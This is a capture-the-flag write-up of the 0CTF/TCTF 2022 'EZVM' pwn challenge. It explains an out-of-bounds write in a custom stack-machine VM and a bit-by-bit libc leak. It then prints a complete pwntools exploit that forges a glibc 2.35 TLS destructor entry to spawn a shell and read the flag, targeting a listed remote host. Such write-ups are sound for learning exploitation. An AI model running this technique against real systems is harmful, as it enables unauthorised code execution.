







#### EZVM

was a pwn challenge from 0CTF/TCTF 2022 edition.

it was a virtual machine escape challenge.

The cpu implemented is what is called a stack machine in computer science --> https://en.wikipedia.org/wiki/Stack_machine

is has some internal registers too, mainly an instruction pointer, a stack pointer, and 4 general registers that can be transferred on stack

via `push` / `pop` style instructions.

Let's have a look at `main` function:



Nothing much happens here as you can see, after some setup, an input is read from user, and the program keep calling the `run_vm` function until the user does not input "bye bye", in this case the program will return

Let's have a look to `run_vm` function (offset 0x228E)



So this function does:

+ ask for desired code memory size (maximum size 0x200), and allocate this memory.
+ ask for desired data memory size (no maximum, but sizes bigger than 0x200000000000000 are treated differently, more about this later on..), and allocates this memory size multiplied by 8
+ read the code from the user.
+ call `initvm()`, that will clear internal registers memory in `.bss` (size 0x58), and allocate stack memory (size 0x800)
+ `execute_vm()` will run code loaded in the vm , this is the main execution loop that fetch opcodes, and execute them, until we reach end of code loaded, or we hit an exit instruction.
+ finally `free_buffer()` will free allocated  data, code and stack memories..


We saw, that when allocating data memory, we can once (a register `dword_5010` is set once done, and tested) allocate a very big chunk of memory, above 0x200000000000000.

and we saw that this requested size multiplied by 8 is requested by `malloc`, the multiplication by 8 is a left shift by 3 bits as you can see in the assembly code:



The result of this, if that the 3 upper bits of `mem_count` will just be ignored after the shift,

so for example if we ask for 0x2000000000030000 size,  `malloc` will allocate (0x30000 << 3) bytes and the 3 uppermost bits will be ignored.

And that is important for the vulnerability that we will use.

The **opcode 21** instruction is an instruction to write one of the 4 internal registers to the data memory, the memory encoding of the instruction looks like this:

```1 byte -> 21		; opcode
1 byte -> 21		; opcode 21
1 byte -> reg		; internal register (0 to 3)
1 qword -> offset	; offset to write from beginning of data memory
```

Here is the opcode reverse:



the `memory_size_5060` var, is the requested data memory size, 0x2000000000030000 for example.

so the result of all this is that we have an oob write with this opcode, because the real allocated size for data memory was (0x30000<<3)  , and `v7` the offset where we will write is compared to not be bigger than 0x2000000000030000,

so we can write a lot further than the data memory chunk's end...

**So we have an oob write..**

Also if we ask for a data memory size bigger than 0x21000 (the heap size), it will be allocated by `malloc` via `mmap`, just before the `libc` in memory.

So with our oob write we can write anywhere in `libc` for example..

**Here is a quick explanation of different opcodes, r0-3 are the 4 internal registers:**

```
0 -> push r0-3 on stack
1 -> pop from stack (to r0-r3)
2 -> add
3 -> sub
4 -> multiply
5 -> divide
6 -> modulo
7 -> shl
8 -> shr
9 -> and
10 -> well no 10 , because 10 is carriage return , and ends code input :)
11 -> or
12 -> xor
13 -> test
14 -> jmp offset
15 -> jmpne offset  ,jump if actual stack value != 0,  and pop value
16 -> jmpe offset   ,jump if actual stack value == 0,  and pop value
17 -> compare two stacks entries, pop them, push 1 if equals
18 -> compare two stacks entries, pop them, push 1 if lower
19 -> compare two stacks entries, pop them, push 1 if higher
20 -> set 64bit value of internal reg r0-3
21 -> write r0-r3 to offset in data memory (oob is here)
22 -> read data memory value at offset, in internal register r0-3 (no oob in this one)
23 -> exit opcode
```

All the logical and arithmetic operations operates on two last values on stack, that are removed from stack, the result is pushed on stack..

that's how stack machines live their life...

**So What's the plan ?**

Well with the oob opcode , we can write after the data memory.. but we need a libc address leak to make it usefull..

and there are no opcodes that permit us to write something...

**so how to leak???**

well, we can see that if an unknown opcode is given, a message is printed:



we can abuse this to leak a value, for example:

we logical `AND` this value with the bit we want to leak, and if it result zero we can jump to exit, then we put an unknow opcode after the conditionnal jump that will be executed if the jump does not occurs, and will print the "what???" string..

Like this we can leak bits value one by one..

**so what to leak ???**

well, if we do two rounds with correct sizes (0x800 for data mem) ,  libc will leave us a `main_arena` address on data memory first address...

so we just have to leak this `main_arena` address with our method above...

here is the python code for the leak:

```python
# leak libc value bit by bit (we assume that firt 5 bits are zeroes (which is the case for main_arena address)
for i in range(5,40,1):
  print('leaking bit '+str(i))
  code = b'\x16\x00'+p64(0)     # load data mem offset 0 to r0 (will contain a main_arena value on second round)
  code += b'\x00\x00'   # push r0
  code += b'\x14\x01'+p64(1<<i)         # load bit maks in r1
  code += b'\x00\x01'   # push r1
  code += b'\x09'                       # logical AND on two stacks value, they will be poped and result put instead
  code += b'\x10'+p64(1)                # jump to offset +1 (pass over bad instruction) if result is 0
  code += b'\x18\x17'                   # one bad instruction \x18  and exit instruction \x17
  sla('code size:\n', str(len(code)) )
  sla('memory count:', '256')
  sla('code:', code)
  buff = p.recvuntil('finish', drop=True)
  print(buff.strip())
  if b'what' in buff:
    leak |= (1<<i)
# we assume upper bits are 0x7f
leak |= 0x7f0000000000
```


**How to get code execution???**

the challenge is using libc-2.35 (2.35-0ubuntu3.1 , from ubuntu 22.04)

it's not as easy than older libc versions to get code execution, because classical hooks (`_free_hook`, `_malloc_hook`, etc...) have been removed...

But there are still many options to have code execution..

one of these options is to intercept the exit code handler,   `__run_exit_handlers()`

that will itself call `__GI___call_tls_dtors()` that will parse dtors table..

as you can see in libc code https://codebrowser.dev/glibc/glibc/stdlib/cxa_thread_atexit_impl.c.html#tls_dtor_list




we can see see that the `call_tls_dtors()` function check for the existence of a dtor table in tls-storage zone at `fs:-0x58`, that is a zone pointed by `fs` register, and allocated just before libc in memory.

the dtors table is a single linked list, containing entries each one pointing to the next one, here is the entry structure from libc source:

```c
struct dtor_list
{
  dtor_func func;
  void *obj;
  struct link_map *map;
  struct dtor_list *next;
};
```

this linked list will be parsed by `call_tls_dtors()`, one by one,  and `dtor_func func`, will be called passing it `obj` as argument,

the func pointer is mangled, it is rolled left of 0x11 bits, and xored with a value stored in tls-storage just after the canary value at `fs:0x30`

but as we can do many write, we can erase this random value at `fs:0x30` by writing zero to it.

Like this,  our `dtor_list` function address will just need to by rolled left by 0x11 bits..

so we create a fake `dtor_list` entry with function pointing to `system`, and argument pointing to `"/bin/sh"` string in libc...

then we write its address at `dtor_list` head address that is stored at `fs:-0x58`

and when the program will return we will have code execution

**so let's see it in action:**



if you understand nothing of my explanation I'm sorry for this...

maybe , you can just read the code..that will speak by itself...

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("./ezvm_patched")
libc = ELF("./libc-2.35.so")

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


rop = ROP(exe)

#host, port = "202.120.7.210", "40241"
host, port = "47.252.3.1", "40241"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

sla('Welcome', '')
sla('code size:','38')
sla('memory count', '256')
sla('code:\n', b'\x17'+b'\xff'*36)

sla('continue?', 'continue')
leak = 0
# leak libc value bit by bit (we assume that first 5 bits are zeroes (which is the case for main_arena address)
for i in range(5,40,1):
  print('leaking bit '+str(i))
  code = b'\x16\x00'+p64(0)	# load data mem offset 0 to r0 (will contain a main_arena value on second round)
  code += b'\x00\x00'	# push r0
  code += b'\x14\x01'+p64(1<<i)		# load bit maks in r1
  code += b'\x00\x01'	# push r1
  code += b'\x09'			# logical AND on two stacks value, they will be poped and result put instead
  code += b'\x10'+p64(1)		# jump to offset +1 (pass over bad instruction) if result is 0
  code += b'\x18\x17'			# one bad instruction \x18  and exit instruction \x17
  sla('code size:\n', str(len(code)) )
  sla('memory count:', '256')
  sla('code:', code)
  buff = p.recvuntil('finish', drop=True)
  print(buff.strip())
  if b'what' in buff:
    leak |= (1<<i)
# we assume upper bits are 0x7f
leak |= 0x7f0000000000

print('leak = '+hex(leak))
libc.address = leak - 0x219ce0
print('libc base = '+hex(libc.address))

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

size = 0x2000000000030000
sla('code size:','100')
# create a fake dtor_list entry to get code execution at exit
sla('memory count', str(size))
code = b'\x15\x00'+p64(0x302ec)  # clear rand val
code += b'\x14\x00'+p64(libc.address - 0x2a00)
code += b'\x15\x00'+p64(0x302db)  # rbp val
dest = rol(libc.sym['system'],0x11,64)
code += b'\x14\x00'+p64(dest)
code += b'\x15\x00'+p64(0x302be)  # rbp val
code += b'\x14\x00'+p64(next(libc.search('/bin/sh')))
code += b'\x15\x00'+p64(0x302bf)  # rbp val
code += b'\x17'
sl(code)

# now we exit
sla('continue?', 'bye bye\x00')
# and enjoy shell
p.sendline('id; cat flag*;')
p.interactive()
```

*nobodyisnobody still pwning things..*